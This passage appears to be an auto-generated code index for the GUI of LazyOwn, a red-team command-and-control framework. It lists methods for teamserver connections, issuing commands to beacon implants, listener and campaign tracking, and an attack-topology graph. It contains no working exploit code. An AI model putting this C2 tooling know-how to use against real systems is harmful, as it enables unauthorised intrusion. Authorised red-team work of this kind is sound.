- `__init__` (line 38) `def __init__(self, constants, paths, parent)` - *Initialise the backend with the shared constants and paths.*
- `start` (line 62) `def start(self)` - *Fork-exec the cmd2 console behind a PTY.*
- `stop` (line 87) `def stop(self)` - *Send ``SIGTERM`` to the child and tear down notifiers.*
- `send_command` (line 112) `def send_command(self, command, target_session)` - *Write ``command`` followed by a newline to the PTY.*
- `refresh` (line 117) `def refresh(self)` - *No-op for the local backend; the operator drives data from cmd2.*
- `resize_terminal` (line 121) `def resize_terminal(self, columns, rows)` - *Propagate the new size to the PTY using ``TIOCSWINSZ``.*
- `feed_terminal_input` (line 127) `def feed_terminal_input(self, data)` - *Encode ``data`` and write it to the master end of the PTY.*
- `known_sessions` (line 137) `def known_sessions(self)` - *Local backend does not enumerate sessions.*
- `known_listeners` (line 141) `def known_listeners(self)` - *Local backend does not enumerate listeners.*
- `_exec_child_process` (line 147) `def _exec_child_process(self)` - *Replace the forked child with ``run`` inside the project root.*
- `_configure_master_fd` (line 156) `def _configure_master_fd(self)` - *Mark the master fd non-blocking so reads can be polled.*
- `_install_window_size` (line 163) `def _install_window_size(self)` - *Send the current terminal dimensions to the PTY.*
- `_install_read_notifier` (line 173) `def _install_read_notifier(self)` - *Wire a ``QSocketNotifier`` to fire when the PTY has output.*
- `_install_reaper` (line 180) `def _install_reaper(self)` - *Periodically waitpid() to detect when the cmd2 console exits.*
- `_on_master_readable` (line 187) `def _on_master_readable(self)` - *Drain the PTY into ``terminal_output`` until ``EAGAIN``.*
- `_handle_pty_eof` (line 215) `def _handle_pty_eof(self)` - *Close the master fd once the child closes its end.*
- `_reap_child` (line 220) `def _reap_child(self)` - *Detect child termination so the UI can show the disconnected state.*
- `_emit_event` (line 235) `def _emit_event(self, level, message)` - *Forward a structured log line to the GUI event log.*
- `announce_local_operator` (line 249) `def announce_local_operator(self)` - *Emit a synthetic :class:`Operator` describing the local user.*

#### `models.py`
**Path:** `lazygui/services/models.py`
**File Doc:** *Immutable domain types consumed by the UI.  These dataclasses are deliberately framework-agnostic. They never carry Qt references so they can be created from threads or background workers without touching the GUI loop. Widgets adapt them at the edge.*

**Classes:**
- `BackendKind` (line 17) `class BackendKind(StrEnum)` - *Stable identifiers for the backend implementations.*
- `EventLevel` (line 24) `class EventLevel(StrEnum)` - *Severity levels for :class:`EventRecord`. Order matters for filtering.*
- `Session` (line 49) `class Session` - *A connected implant/session as reported by the backend.*
- `Listener` (line 64) `class Listener` - *A C2 listener (HTTP/HTTPS/DNS/TCP) advertised by the backend.*
- `Operator` (line 76) `class Operator` - *An operator account known to the teamserver.*
- `EventRecord` (line 87) `class EventRecord` - *A single line in the event log.*
- `GraphNode` (line 102) `class GraphNode` - *A node in the attack topography graph.*
- `GraphEdge` (line 115) `class GraphEdge` - *An edge connecting two graph nodes.*
- `Topology` (line 126) `class Topology` - *Complete graph topology from the teamserver.*
- `DashboardPayload` (line 139) `class DashboardPayload` - *Aggregated dashboard data from ``/api/dashboard``.*
- `CampaignSummary` (line 151) `class CampaignSummary` - *Campaign status from the backend.*
- `BeaconResult` (line 164) `class BeaconResult` - *Command result returned by a beacon.*

**Methods:**
- `numeric` (line 34) `def numeric(self)` - *Numeric rank used to compare severity.*
- `now` (line 96) `def now(cls, level, source, message)` - *Construct a record stamped with the current UTC time.*
- `empty` (line 133) `def empty(cls)` - *Return an empty topology.*

#### `teamserver_backend.py`
**Path:** `lazygui/services/teamserver_backend.py`
**File Doc:** *Teamserver backend with Socket.IO real-time and full HTTP API coverage.  Connects to ``lazyc2.py`` via HTTP REST + Socket.IO WebSocket. The backend provides bidirectional terminal access, beacon command/result flow, graph topology streaming, dashboard aggregation, listener management and campaign tracking. Fault-tolerant with automatic reconnection and graceful degradation.*

**Classes:**
- `TeamserverCredentials` (line 39) `class TeamserverCredentials` - *Connection parameters for :class:`TeamserverBackend`.*
- `TeamserverBackend` (line 48) `class TeamserverBackend(Backend)` - *Real-time backend communicating with ``lazyc2.py`` over HTTP + Socket.IO.*

**Functions:**
- `_connect_sio` (line 444) `def _connect_sio()`
- `_on_pty_connect` (line 461) `def _on_pty_connect()`
- `_on_pty_output` (line 465) `def _on_pty_output(data)`
- `_on_terminal_connect` (line 471) `def _on_terminal_connect()`
- `_on_terminal_response` (line 475) `def _on_terminal_response(data)`
- `_on_output` (line 481) `def _on_output(data)`
- `_on_connect` (line 487) `def _on_connect()`
- `_on_disconnect` (line 491) `def _on_disconnect()`

**Methods:**
- `__init__` (line 51) `def __init__(self, constants, credentials, parent)` - *Store ``credentials`` and prepare polling timers and Socket.IO client.*
- `start` (line 80) `def start(self)` - *Begin polling and establish Socket.IO connection.

First authenticates via the C2 login form to obtain a Flask session
cookie. Then starts HTTP polling and Socket.IO after authentication
completes, so the WebSocket upgrade carries the session cookie.*
- `stop` (line 97) `def stop(self)` - *Tear down all timers and Socket.IO connection.*
- `send_command` (line 112) `def send_command(self, command, target_session)` - *Submit ``command`` via Socket.IO PTY (global) or ``/issue_command`` (beacon).

Global commands go through Socket.IO ``/pty`` to reach the PTY
directly and bypass CSRF. Beacon commands POST to ``/issue_command``
which the implant polls.*
- `refresh` (line 124) `def refresh(self)` - *Pull consolidated state JSON and emit derived signals.*
- `resize_terminal` (line 139) `def resize_terminal(self, columns, rows)` - *Forward resize to Socket.IO PTY namespace when connected.*
- `feed_terminal_input` (line 151) `def feed_terminal_input(self, data)` - *Feed keystrokes to the PTY via Socket.IO, falling back to HTTP commands.

Socket.IO ``/pty`` namespace sends raw input directly to the PTY
and bypasses CSRF checks, so it is preferred when available.*
- `known_sessions` (line 169) `def known_sessions(self)` - *Most recent snapshot delivered by the last poll.*
- `known_listeners` (line 173) `def known_listeners(self)` - *Most recent snapshot delivered by the last poll.*
- `known_topology` (line 177) `def known_topology(self)` - *Most recent graph topology snapshot.*
- `known_campaigns` (line 181) `def known_campaigns(self)` - *Most recent campaign snapshot.*
- `request_beacon_results` (line 185) `def request_beacon_results(self, client_id)` - *Fetch stored command results for a specific beacon.*
- `request_world_model` (line 210) `def request_world_model(self)` - *Fetch the unified kill-chain snapshot from the teamserver REST API.

Overrides the base local-file implementation so the remote state is
the single source of truth for the GUI kill-chain panel.*
- `request_beacon_history` (line 224) `def request_beacon_history(self, client_id)` - *Fetch the persistent ordered command/result history for a beacon.

Args:
    client_id: The beacon id whose history is requested.

Returns:
    A list of record dicts (oldest first), or [] on failure.*
- `_poll_beacon_results` (line 242) `def _poll_beacon_results(self)` - *Periodically poll ``/get_results`` and emit ``beacon_result`` for new data.

Compares each client_id's last command against a cached snapshot
to avoid re-emitting stale data on every poll cycle.*
- `_establish_flask_session` (line 285) `def _establish_flask_session(self)` - *Authenticate with the C2 via the login form to obtain a session cookie.

Flask-Login requires a session cookie for Socket.IO namespace access.
A form POST to ``/login`` authenticates the operator and sets the
session cookie on the ``requests.Session``, which is then forwarded
to the Socket.IO upgrade request.*
- `_build_http_session` (line 302) `def _build_http_session(self)`
- `_build_url` (line 312) `def _build_url(self, path)`
- `_http_get_json` (line 318) `def _http_get_json(self, path)`
- `_http_post_form` (line 332) `def _http_post_form(self, path, payload)`
- `_post_session_command` (line 346) `def _post_session_command(self, command, client_id)`
- `_send_command_via_pty` (line 357) `def _send_command_via_pty(self, command)` - *Send a command through the Socket.IO ``/pty`` namespace.

Bypasses CSRF entirely because Socket.IO authentication is handled
at connection time. Falls back to emitting the command attempt as an
event when the Socket.IO client is not connected.*
- `_dispatch_terminal_lines` (line 378) `def _dispatch_terminal_lines(self, data)`
- `_refresh_topology` (line 386) `def _refresh_topology(self)` - *Rebuild topology from the last known payload.

The graph is built from ``/api/data`` fields: ``connected_clients``,
``connected_hosts``, ``discovered_ips``, ``result_portscan``,
``os_data``, ``hostname``, ``ips``, and ``local_ips``.*
- `_refresh_dashboard` (line 396) `def _refresh_dashboard(self)`
- `_install_http_polling` (line 424) `def _install_http_polling(self)`
- `_start_socketio` (line 443) `def _start_socketio(self)`
- `_stop_socketio` (line 520) `def _stop_socketio(self)`
- `_update_from_payload` (line 530) `def _update_from_payload(self, payload)`
- `_update_sessions` (line 537) `def _update_sessions(self, payload)`
- `_update_listeners` (line 577) `def _update_listeners(self, payload)`
- `_update_operator` (line 608) `def _update_operator(self, payload)`
- `_parse_graph_nodes` (line 621) `def _parse_graph_nodes(self, payload)`
- `_parse_graph_edges` (line 645) `def _parse_graph_edges(self, payload)`
- `_build_topology_from_payload` (line 664) `def _build_topology_from_payload(self, payload)` - *Build the graph topology from ``/api/data`` fields.

Uses the same data the web GUI's ``generateGraph()`` function reads:
``connected_clients`` (beacons), ``connected_hosts`` (discovered
hosts), ``discovered_ips`` per client, ``result_portscan`` per
client, ``os_data``, ``hostname``, ``ips``, and ``local_ips`` for
the C2 label.*
- `_emit_event` (line 780) `def _emit_event(self, level, message)`

#### `__init__.py`
**Path:** `lazygui/theme/__init__.py`
**File Doc:** *Theme subsystem.  Themes are described by :class:`ThemeTokens` instances. The :class:`QssBuilder` translates tokens into a Qt stylesheet, and :class:`ThemeManager` registers palettes, applies them to the running :class:`QApplication`, and emits a Qt signal when the active theme changes so widgets can react.*

*No symbols extracted*

#### `manager.py`
**Path:** `lazygui/theme/manager.py`
**File Doc:** *Theme registry and runtime application of stylesheets.  The :class:`ThemeManager` holds the available palettes, applies the active one onto the running :class:`QApplication`, and emits ``theme_changed`` so widgets that draw with custom painters can refresh their cached colours.*

**Classes:**
- `ThemeManager` (line 26) `class ThemeManager(QObject)` - *Owns palettes and applies them to the application instance.*

**Methods:**
- `__init__` (line 31) `def __init__(self, constants, settings, application, palettes, parent)` - *Initialise the manager.

:param constants: shared :class:`AppConstants` instance.
:param settings: persisted :class:`AppSettings` for read/write of the
    active theme identifier.
:param application: the running ``QApplication`` instance.
:param palettes: optional override registry; defaults to the built-in
    palettes returned by :func:`builtin_palettes`.*
- `active_tokens` (line 57) `def active_tokens(self)` - *Currently active :class:`ThemeTokens`. Defaults if none set yet.*
- `active_id` (line 64) `def active_id(self)` - *Identifier of the active palette.*
- `available` (line 68) `def available(self)` - *Yield all registered palettes in registration order.*
- `apply_initial` (line 72) `def apply_initial(self)` - *Load the saved theme identifier and apply it.*
- `apply` (line 80) `def apply(self, identifier)` - *Activate the palette with ``identifier`` and persist the choice.*
- `cycle` (line 93) `def cycle(self)` - *Switch to the next palette, wrapping at the end of the registry.*
- `_apply_to_application` (line 103) `def _apply_to_application(self, tokens)`
- `_build_qpalette` (line 109) `def _build_qpalette(tokens)`

#### `__init__.py`
**Path:** `lazygui/theme/palettes/__init__.py`
**File Doc:** *Built-in palette registry.  Each palette module exposes a ``TOKENS`` instance of :class:`ThemeTokens`. :func:`builtin_palettes` returns them all in declaration order so callers need not enumerate filenames manually.*

**Functions:**
- `builtin_palettes` (line 23) `def builtin_palettes()` - *Return the built-in palette registry as ``id -> tokens``.*

#### `catppuccin_mocha.py`
**Path:** `lazygui/theme/palettes/catppuccin_mocha.py`
**File Doc:** *Catppuccin Mocha palette - warm pastel dark theme.*

*No symbols extracted*

#### `cobalt_clone.py`
**Path:** `lazygui/theme/palettes/cobalt_clone.py`
**File Doc:** *Cobalt Clone palette - homage to the classic command-and-control look.*

*No symbols extracted*

#### `gruvbox_dark.py`
**Path:** `lazygui/theme/palettes/gruvbox_dark.py`
**File Doc:** *Gruvbox Dark palette - retro warm contrast theme.*

*No symbols extracted*

#### `solarized_light.py`
**Path:** `lazygui/theme/palettes/solarized_light.py`
**File Doc:** *Solarized Light palette - low-contrast daylight option.*

*No symbols extracted*

#### `tactical_green.py`
**Path:** `lazygui/theme/palettes/tactical_green.py`
**File Doc:** *Tactical Green palette - the LazyOwn signature look.*

*No symbols extracted*

#### `tokyo_night.py`
**Path:** `lazygui/theme/palettes/tokyo_night.py`
**File Doc:** *Tokyo Night palette - balanced dark blue theme.*

*No symbols extracted*

#### `qss_builder.py`
**Path:** `lazygui/theme/qss_builder.py`
**File Doc:** *Builds a Qt stylesheet string from :class:`ThemeTokens`.  Centralising the QSS template here keeps widgets ignorant of styling. They declare ``objectName``s and selectors; the builder owns the visual contract.*

**Classes:**
- `QssBuilder` (line 16) `class QssBuilder` - *Renders a complete QSS sheet for a given theme.*

**Methods:**
- `build` (line 21) `def build(self, tokens)` - *Return the full QSS sheet for ``tokens``.*
- `_font_stack` (line 39) `def _font_stack(stack)`

#### `tokens.py`
**Path:** `lazygui/theme/tokens.py`
**File Doc:** *Design tokens describing a single theme.  Tokens are immutable. They cover colours, typography sizes and corner radii. Anything that should differ between themes must be expressed here so the QSS builder can render it without consulting any other source of truth.*

**Classes:**
- `ThemeTokens` (line 14) `class ThemeTokens` - *Atomic design tokens for one theme variant.*

#### `version.py`
**Path:** `lazygui/version.py`
**File Doc:** *Single source of truth for the package version string.*

*No symbols extracted*

#### `__init__.py`
**Path:** `lazygui/widgets/__init__.py`
**File Doc:** *Reusable widgets.  Each widget is owned by a single concern and accepts the global :class:`AppConstants` plus the active :class:`ThemeTokens` so it can render itself consistently with the rest of the application without depending on panels, windows, or backends.*

*No symbols extracted*

#### `beacon_command_modal.py`
**Path:** `lazygui/widgets/beacon_command_modal.py`
**File Doc:** *Beacon command modal — send commands to beacons and inspect full history.  The modal is the primary operator surface for issuing commands to a beacon implant and reviewing both real-time results and the persisted command history served by the teamserver. History is loaded from the backend (request_beacon_history) so prior engagements survive restarts; live results stream in through the ``beacon_result`` signal.*

**Classes:**
- `_HistoryEntry` (line 35) `class _HistoryEntry` - *A single command/result entry shown in the modal history list.*
- `BeaconCommandModal` (line 44) `class BeaconCommandModal(QDialog)` - *Modal dialog for executing commands on a beacon and viewing results.

Signals:
    command_sent: Emitted with the target and command when dispatched.*

**Methods:**
- `__init__` (line 53) `def __init__(self, backend, parent)` - *Initialise the modal with a backend reference.

Args:
    backend: The active backend for dispatching commands.
    parent: Optional parent widget.*
- `_build_ui` (line 75) `def _build_ui(self)`
- `_selected_target` (line 122) `def _selected_target(self)` - *Return the current target id, or empty string for the C2 global.*
- `_on_target_changed` (line 127) `def _on_target_changed(self, _text)`
- `_reload_history` (line 131) `def _reload_history(self)` - *Load and render the persisted history for the selected target.*
- `_on_sessions_changed` (line 168) `def _on_sessions_changed(self, sessions)` - *Refresh the target selector from the backend session list.*
- `_send_command` (line 182) `def _send_command(self)` - *Dispatch the typed command to the selected beacon.*
- `_on_history_clicked` (line 196) `def _on_history_clicked(self, item)`
- `_last_entry` (line 201) `def _last_entry(self, index)`
- `_on_beacon_result` (line 209) `def _on_beacon_result(self, result)` - *Append a live beacon result to the output view and history.*
- `open` (line 216) `def open(self)` - *Populate sessions before showing.*
- `focus_input` (line 227) `def focus_input(self)` - *Move keyboard focus to the command input.*

#### `command_palette_list.py`
**Path:** `lazygui/widgets/command_palette_list.py`
**File Doc:** *Result list and action model for the command palette.*

**Classes:**
- `CommandPaletteAction` (line 16) `class CommandPaletteAction` - *A user-visible entry inside the command palette.*
- `CommandPaletteList` (line 28) `class CommandPaletteList(QListView)` - *List view backed by a fuzzy-filtered :class:`CommandPaletteAction` set.*

**Functions:**
- `_fuzzy_score` (line 99) `def _fuzzy_score(query, title, subtitle)` - *Return a sortable score (lower is better) or ``-1`` if no match.

The algorithm prefers matches in ``title`` over ``subtitle`` and rewards
shorter strings, which keeps highly relevant short titles at the top.*
- `_token_order_score` (line 114) `def _token_order_score(query, haystack, base_offset)` - *Score by ensuring all query chars appear in order somewhere in haystack.*

**Methods:**
- `__init__` (line 33) `def __init__(self, constants, actions, parent)` - *Store the action set and prepare the underlying model.*
- `set_actions` (line 53) `def set_actions(self, actions)` - *Replace the entire action registry and reset the filter.*
- `apply_filter` (line 58) `def apply_filter(self, query)` - *Filter the action set using a substring + token-order heuristic.*
- `invoke_current` (line 76) `def invoke_current(self)` - *Invoke whichever action is currently highlighted, if any.*
- `_on_activated` (line 85) `def _on_activated(self, _index)` - *Forward double-click / Enter to :meth:`invoke_current`.*
- `_populate` (line 89) `def _populate(self, actions)` - *Rebuild the item model with one row per action.*

#### `event_log_view.py`
**Path:** `lazygui/widgets/event_log_view.py`
**File Doc:** *Read-only viewer for :class:`EventLog` records.*

**Classes:**
- `EventLogView` (line 20) `class EventLogView(QTreeWidget)` - *Tree-style log viewer wired to an :class:`EventLog` instance.*

**Methods:**
- `__init__` (line 23) `def __init__(self, constants, event_log, parent)` - *Bind the view to ``event_log`` and configure columns/headers.*
- `set_minimum_level` (line 51) `def set_minimum_level(self, level)` - *Filter view to records of severity >= ``level`` and reload.*
- `minimum_level` (line 61) `def minimum_level(self)` - *Currently active severity filter.*
- `_on_record_appended` (line 65) `def _on_record_appended(self, record)` - *Append the record only if it passes the severity filter.*
- `_append_record` (line 71) `def _append_record(self, record)` - *Render a single record as a top-level item.*

#### `filter_bar.py`
**Path:** `lazygui/widgets/filter_bar.py`
**File Doc:** *Reusable text-filter bar with debounced ``filter_changed`` signal.*

**Classes:**
- `FilterBar` (line 11) `class FilterBar(QWidget)` - *Single-line text filter that debounces emissions for table views.*

**Methods:**
- `__init__` (line 16) `def __init__(self, constants, placeholder_text, label_text, parent)` - *Lay out a label + line edit and wire up debounce timing.*
- `text` (line 42) `def text(self)` - *Current filter text.*
- `clear` (line 46) `def clear(self)` - *Reset the filter to an empty string.*
- `_on_text_changed` (line 50) `def _on_text_changed(self, _value)` - *Restart the debounce timer on any keystroke.*
- `_emit_filter_changed` (line 54) `def _emit_filter_changed(self)` - *Emit ``filter_changed`` once the user has stopped typing.*

#### `graph_view.py`
**Path:** `lazygui/widgets/graph_view.py`
**File Doc:** *Interactive attack topography graph widget.  Renders the C2 beacon graph using Qt Graphics Framework (QGraphicsView). Nodes represent servers, beacons and hosts. Edges represent connections. Supports drag, zoom, selection highlighting and context menus.*

**Classes:**
- `GraphNodeState` (line 132) `class GraphNodeState` - *Internal state for a graph node being laid out.*
- `GraphNodeItem` (line 140) `class GraphNodeItem(QGraphicsEllipseItem)` - *A single node in the graph with label and selection support.*
- `GraphEdgeItem` (line 285) `class GraphEdgeItem(QGraphicsLineItem)` - *A line connecting two graph nodes with optional label.*
- `GraphScene` (line 334) `class GraphScene(QGraphicsScene)` - *Scene managing all graph nodes and edges with physics layout.*
- `GraphView` (line 499) `class GraphView(QGraphicsView)` - *Interactive graph view with zoom, pan and physics animation.*

**Functions:**
- `_resolve_icon_dir` (line 47) `def _resolve_icon_dir()`
- `_load_icon` (line 63) `def _load_icon(name)`
- `_icon_for_node` (line 81) `def _icon_for_node(node)`
- `_resolve_node_color` (line 575) `def _resolve_node_color(node)`
- `_resolve_node_radius` (line 584) `def _resolve_node_radius(node)`
- `_on_selected` (line 374) `def _on_selected(nid)`
- `_on_context_menu` (line 377) `def _on_context_menu(nid, pos)`

**Methods:**
- `__init__` (line 143) `def __init__(self, node, radius, color, pixmap, on_selected, on_context_menu, label_visible, parent)`
- `_create_label` (line 173) `def _create_label(self)`
- `node_data` (line 186) `def node_data(self)` - *Return the immutable node data associated with this item.*
- `paint` (line 190) `def paint(self, painter, option, widget)`
- `mousePressEvent` (line 248) `def mousePressEvent(self, event)`
- `mouseReleaseEvent` (line 259) `def mouseReleaseEvent(self, event)`
- `hoverEnterEvent` (line 266) `def hoverEnterEvent(self, event)`
- `hoverLeaveEvent` (line 273) `def hoverLeaveEvent(self, event)`
- `itemChange` (line 279) `def itemChange(self, change, value)`
- `__init__` (line 288) `def __init__(self, edge, source_item, target_item, parent)`
- `_update_position` (line 313) `def _update_position(self)`
- `update_position` (line 324) `def update_position(self)` - *Recalculate the line endpoints from source and target positions.*
- `edge_data` (line 329) `def edge_data(self)` - *Return the immutable edge data.*
- `__init__` (line 340) `def __init__(self, constants, parent)`
- `set_topology` (line 349) `def set_topology(self, topology)` - *Replace the current graph with a new topology using force layout.*
- `_add_node` (line 369) `def _add_node(self, node)`
- `_add_edge` (line 393) `def _add_edge(self, edge)`
- `_apply_force_layout` (line 402) `def _apply_force_layout(self)`
- `step_physics` (line 419) `def step_physics(self)` - *Run one iteration of force-directed layout. Returns False when stable.*
- `selected_node_id` (line 491) `def selected_node_id(self)` - *Return the identifier of the first selected node, or None.*
- `__init__` (line 509) `def __init__(self, constants, parent)`
- `set_theme_colors` (line 527) `def set_theme_colors(self, bg_color, edge_color)` - *Update graph background and default edge colour from theme tokens.*
- `set_topology` (line 535) `def set_topology(self, topology)` - *Render a new graph topology.*
- `_install_physics_timer` (line 540) `def _install_physics_timer(self)`
- `_tick_physics` (line 548) `def _tick_physics(self)`
- `wheelEvent` (line 551) `def wheelEvent(self, event)`
- `selected_node_id` (line 561) `def selected_node_id(self)` - *Return the identifier of the currently selected node.*
- `fit_to_content` (line 565) `def fit_to_content(self)` - *Zoom to fit all graph content.*
- `scene_handle` (line 570) `def scene_handle(self)` - *Return the underlying graph scene.*

#### `status_badge.py`
**Path:** `lazygui/widgets/status_badge.py`
**File Doc:** *Compact label that reflects a :class:`BackendStatus` value.*

**Classes:**
- `StatusBadge` (line 18) `class StatusBadge(QLabel)` - *Status label whose ``objectName`` reflects severity for QSS styling.*

**Methods:**
- `__init__` (line 21) `def __init__(self, parent)` - *Create the badge in the disconnected state.*
- `set_status` (line 27) `def set_status(self, status)` - *Update label text and the object name driving QSS colour.*

#### `terminal_view.py`
**Path:** `lazygui/widgets/terminal_view.py`
**File Doc:** *ANSI-aware terminal viewer.  Strips ANSI escape codes and control characters before appending text. Handles cmd2 prompt rendering, colour codes, cursor positioning, and carriage-return semantics.*

**Classes:**
- `TerminalView` (line 33) `class TerminalView(QPlainTextEdit)` - *Plain-text view that consumes backend output and emits keystrokes.*

**Methods:**
- `__init__` (line 38) `def __init__(self, constants, parent)` - *Configure the widget for log-style append-only behaviour.*
- `append_output` (line 54) `def append_output(self, text)` - *Append ``text`` after stripping ANSI control codes and control chars.*
- `_sanitize` (line 66) `def _sanitize(raw)`
- `keyPressEvent` (line 75) `def keyPressEvent(self, event)` - *Forward keystrokes to listeners instead of mutating the buffer.*
- `_translate_key_event` (line 85) `def _translate_key_event(event)` - *Return the raw bytes a backend should receive, or ``None`` to ignore.*

#### `__init__.py`
**Path:** `lazygui/windows/__init__.py`
**File Doc:** *Top-level windows and dialogs.*

*No symbols extracted*

#### `command_palette_window.py`
**Path:** `lazygui/windows/command_palette_window.py`
**File Doc:** *Frameless palette window invoked by ``Ctrl+K``.*

**Classes:**
- `CommandPaletteWindow` (line 15) `class CommandPaletteWindow(QWidget)` - *Frameless overlay that fuzzy-filters and dispatches actions.*

**Methods:**
- `__init__` (line 18) `def __init__(self, constants, actions, parent)` - *Build the search input plus the result list.*
- `set_actions` (line 43) `def set_actions(self, actions)` - *Replace the action set on the underlying list.*
- `keyPressEvent` (line 48) `def keyPressEvent(self, event)` - *Intercept Enter and Esc, otherwise delegate to the search box.*
- `showEvent` (line 71) `def showEvent(self, event)` - *Move keyboard focus into the search box on every open.*
- `_on_action_invoked` (line 77) `def _on_action_invoked(self, action)` - *Run the selected action and dismiss the palette.*

#### `connect_dialog.py`
**Path:** `lazygui/windows/connect_dialog.py`
**File Doc:** *Connection dialog for picking a backend.  The dialog lets the operator choose between the local console and a remote teamserver. Picked values are returned as :class:`ConnectionRequest` so the caller decides what to do (e.g. instantiate a backend, persist last selection, hand it off to the main window).  Auto-discovered credentials from ``.c2_credentials.txt`` are pre-filled when available so the operator doesn't need to type them manually.*

**Classes:**
- `ConnectionRequest` (line 39) `class ConnectionRequest` - *Result of a successful :class:`ConnectDialog` interaction.*
- `ConnectDialog` (line 50) `class ConnectDialog(QDialog)` - *Modal dialog returning a :class:`ConnectionRequest` on accept.*

**Methods:**
- `__init__` (line 53) `def __init__(self, constants, settings, paths, parent)` - *Build the form and pre-fill from persisted settings + credentials file.*
- `request` (line 105) `def request(self)` - *Translate current widget state into a :class:`ConnectionRequest`.*
- `persist_choice` (line 120) `def persist_choice(self)` - *Save the picked values back into :class:`AppSettings`.*
- `_build_local_page` (line 135) `def _build_local_page(self)` - *Static description for the local backend page.*
- `_build_teamserver_page` (line 150) `def _build_teamserver_page(self)` - *Form for teamserver URL + credentials.*
- `_restore_last_choice` (line 168) `def _restore_last_choice(self)` - *Pre-fill the form from persisted settings and auto-discovered credentials.*
- `_on_kind_changed` (line 186) `def _on_kind_changed(self, index)` - *Switch the stacked widget to match the selected kind.*

#### `main_window.py`
**Path:** `lazygui/windows/main_window.py`
**File Doc:** *Operator console main window.  Composes panels, menus, toolbar, status bar and shortcuts. Owns no business logic of its own — every interaction either mutates the active :class:`Backend` (issuing a command, refreshing) or the persisted :class:`AppSettings` (theme, layout).*

**Classes:**
- `MainWindow` (line 37) `class MainWindow(QMainWindow)` - *Top-level operator window with Cobalt Strike-inspired layout.*

**Functions:**
- `_toggle` (line 303) `def _toggle()`
- `_apply` (line 314) `def _apply()`

**Methods:**
- `__init__` (line 40) `def __init__(self, constants, settings, theme_manager, backend, event_log, parent)` - *Wire the dependencies and build the full layout.*
- `closeEvent` (line 99) `def closeEvent(self, event)` - *Persist geometry, layout and theme before closing.*
- `_install_layout` (line 108) `def _install_layout(self)` - *Build Cobalt Strike-style layout: graph center, tabs left, terminal right, log bottom.*
- `_install_menu_bar` (line 131) `def _install_menu_bar(self)` - *Build a minimal File / View / Theme menu bar.*
- `_install_toolbar` (line 171) `def _install_toolbar(self)` - *Build a single toolbar with the most common actions.*
- `_install_statusbar` (line 195) `def _install_statusbar(self)` - *Build a status bar with backend badge, beacon count, operator label and clock.*
- `_install_shortcuts` (line 220) `def _install_shortcuts(self)` - *Bind global shortcuts not already attached to menu actions.*
- `_persist_geometry_and_state` (line 244) `def _persist_geometry_and_state(self)` - *Encode current geometry/layout into settings.*
- `_restore_geometry_and_state` (line 252) `def _restore_geometry_and_state(self)` - *Restore geometry/layout from settings, ignoring corrupt blobs.*
- `_build_palette_actions` (line 261) `def _build_palette_actions(self)` - *Build the palette catalog from menu and panel toggles.*
- `_make_panel_toggle` (line 300) `def _make_panel_toggle(self, panel)` - *Closure that toggles the visibility of ``panel``.*
- `_make_theme_apply` (line 311) `def _make_theme_apply(self, identifier)` - *Closure that applies the theme with ``identifier``.*
- `_on_operator_changed` (line 319) `def _on_operator_changed(self, operator)` - *Refresh the status-bar operator label.*
- `_on_event_logged` (line 326) `def _on_event_logged(self, _record)` - *Surface the most recent event as a transient status bar message.*
- `_on_theme_changed` (line 329) `def _on_theme_changed(self, tokens)` - *Update the theme label and graph colours when a new palette is applied.*
- `_on_theme_menu_action` (line 337) `def _on_theme_menu_action(self)` - *Apply the theme stored in the triggering action's data field.*
- `_on_sessions_count_changed` (line 345) `def _on_sessions_count_changed(self, sessions)` - *Update the beacon count badge in the status bar.*
- `_on_dashboard_updated` (line 350) `def _on_dashboard_updated(self, dashboard)` - *Update status bar from dashboard payload.*
- `_show_beacon_command_modal` (line 354) `def _show_beacon_command_modal(self)` - *Open the beacon command dialog.*
- `_show_command_palette` (line 361) `def _show_command_palette(self)` - *Show and centre the command palette.*
- `_emit_request_connect` (line 372) `def _emit_request_connect(self)` - *Surface a request to open the connect dialog (handled by Application).*
- `window_requests_connect` (line 376) `def window_requests_connect(self)` - *Hook overridden by :class:`Application` to swap backend at runtime.*
- `_tick_clock` (line 386) `def _tick_clock(self)` - *Update the clock label once per ``statusbar_clock_interval_ms``.*
- `status_badge` (line 393) `def status_badge(self)` - *Expose the badge so the application can update it on backend swaps.*
- `panels` (line 398) `def panels(self)` - *Expose the panel registry for backend swaps.*

#### `lazyown.py`
**Path:** `lazyown.py`
**File Doc:** *lazyown  Author: Gris Iscomeback Email: grisiscomeback at gmail dot com Creation Date: 13/08/2024 License: GPL v3  Description: This file contains the definition of the logic in the LazyOwnShell class  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `_PayloadSettableProxy` (line 233) `class _PayloadSettableProxy` - *Attribute view over a payload mapping for cmd2 ``Settable`` targets.

cmd2's ``Settable`` reads and writes its bound attribute on a
*target object* (``getattr`` / ``setattr``). LazyOwn keeps its
runtime configuration in a plain ``dict`` (``self.params``) so this
proxy bridges the two: every attribute read or write is delegated to
the underlying dict, which keeps ``set <key> <value>`` and
``assign <key> <value>`` operating on the same backing store with no
drift between them.*
- `LazyOwnShell` (line 298) `class LazyOwnShell(Cmd)` - *A custom interactive shell for the LazyOwn Framework.
This class extends the Cmd class to provide an interactive command-line
interface for the LazyOwn Framework. It supports various commands and
modules related to security and network operations. The shell is initialized
with a set of parameters and scripts, allowing users to execute predefined
functions and manage tasks within the framework.

Attributes:
    prompt (str): The command prompt for the shell, obtained from the
                  `getprompt()` function.
    intro (str): A welcome message and disclaimer displayed when the shell
                 starts, with information about the framework and its usage.
    aliases (dict): A dictionary of command aliases for easier access to
                    frequently used commands.
    params (dict): A dictionary of parameters with their default values,
                   used for configuring various aspects of the framework.
    scripts (list): A list of script names included in the toolkit, representing
                    the available modules and functionalities.
    output (str): An empty string for storing output or results from executed
                  commands or scripts.
    custom_prompt (str): A custom prompt for the shell, obtained from the
                         `getprompt()` function.

Methods:
    __init__(): Initializes the shell with default parameters, script names,
                and an empty output string. Sets up the command prompt and
                custom prompt.*

**Functions:**
